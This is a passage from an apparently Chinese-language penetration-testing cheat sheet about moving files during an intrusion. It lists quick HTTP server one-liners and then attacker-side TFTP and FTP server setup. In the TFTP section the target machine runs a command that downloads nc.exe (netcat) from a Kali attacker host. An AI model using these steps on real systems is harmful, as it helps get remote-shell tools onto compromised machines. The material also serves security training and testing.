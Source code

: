 - Erlang
    ```bash
    erl -s inets -eval 'inets:start(httpd,[{server_name,"NAME"},{document_root, "."},{server_root, "."},{port, 8000},{mime_types,[{"html","text/html"},{"htm","text/html"},{"js","text/javascript"},{"css","text/css"},{"gif","image/gif"},{"jpg","image/jpeg"},{"jpeg","image/jpeg"},{"png","image/png"}]}]).'
    ```

- busybox httpd
    ```bash
    busybox httpd -f -p 8000
    ```

- webfs
    ```bash
    webfsd -F -p 8000
    ```

- IIS Express
    ```bash
    C:\> "C:\Program Files (x86)\IIS Express\iisexpress.exe" /path:C:\MyWeb /port:8000
    ```

### FTP

**tftp**

基于 udp,端口为 69

- **攻击端起 tftp**
    ```bash
    mkdir /tftp
    atftpd --daemon --port 69 /tftp
    cp /usr/share/windows-binaries/nc.exe /tftp/
    chown -R nobody /tftp
    ```

- **目标机**
    ```bash
    tftp -i <kali-ip> GET nc.exe
    ```

**ftp**

- **攻击端**
    ```bash
    apt-get install pure-ftpd

    groupadd ftpgroup
    useradd -g ftpgroup -d /dev/null -s /etc ftpuser
    pure-pw useradd username -u ftpuser -d /ftphome
    pure-pw mkdb
    cd /etc/pure-ftpd/auth/
    ln -s ../conf/PureDB 60pdb
    mkdir -p /ftphome
    chown -R ftpuser:ftpgroup /ftphome/
    /etc/init.d/pure-ftpd restart
    ./setup-ftp(输入要设置的密码)
    ```
